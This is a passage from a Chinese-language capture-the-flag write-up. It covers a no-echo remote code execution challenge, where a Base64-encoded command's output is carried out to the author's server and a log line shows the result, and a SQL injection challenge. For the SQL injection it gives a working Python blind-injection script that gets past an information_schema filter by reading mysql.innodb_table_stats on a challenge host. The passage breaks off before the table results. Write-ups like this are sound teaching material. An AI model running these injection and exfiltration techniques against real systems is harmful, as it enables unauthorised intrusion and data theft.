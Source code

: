 这里使用了双重eval，利用Python内置的Base64库将恶意命令编码后发送，注意这道题没有回显，所以选择利用自己的服务器将参数外带出来。

成功拿到：

```http
172.69.35.46 - - [05/Oct/2021:06:40:09 +0000] "GET /rce?Q1VNVENURnszM2Q1MmY1YmM3MjdiODE3M2FjNDE1MjdjYzg0OTc4Nn0= HTTP/1.1" 301 178 "-" "curl/7.64.0"
```

### sqli2

这道题首先过滤了**information_schema**库的使用，其次过滤了<、\>号的使用，等号(**=**)的使用未被过滤，然后再测试了常规函数，常用的**group_concat、lpad**没有被过滤，**select、union、from、as、or**等操作亦未被过滤。

由于过滤了**information_schema**库，这里使用**mysql**这一个库获取库名、表名，附盲注脚本：

```python
import requests

url = "http://219.219.61.234:54380/login.php"

i = 0
table_name = ""
result = ""

while True:
    i += 1
    for char in range(32, 128):
        #payload = f"1'/**/or/**/lpad((select/**/group_concat(database_name)/**/from/**/mysql.innodb_table_stats/**/),{i},1)=/**/0x{table_name}{hex(char)[2:]}#"
        # database_name = flagisHere,mysql,sys,user
        payload = f"1'/**/or/**/lpad((select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name='flagisHere'),{i},1)=/**/0x{table_name}{hex(char)[2:]}#"
        # table_name = flAg
        data = {
            'username': 'admin',
            'passwd': payload
        }

        response = requests.post(url, data=data, allow_redirects=False)
        if 'Hello' in response.text:
            table_name += hex(char)[2:]
            result += chr(char)
            print(result, f"i={i} chr={char}")
            break

```

拿到库结果：

> flagisHere,mysql,sys,user

注意数据库有一个user(这就是这道题正在连接的数据库，所以后面不能直接select * from flAg，不然会取不到数据)，显然flagisHere就是flag的库了。

拿到表结果：
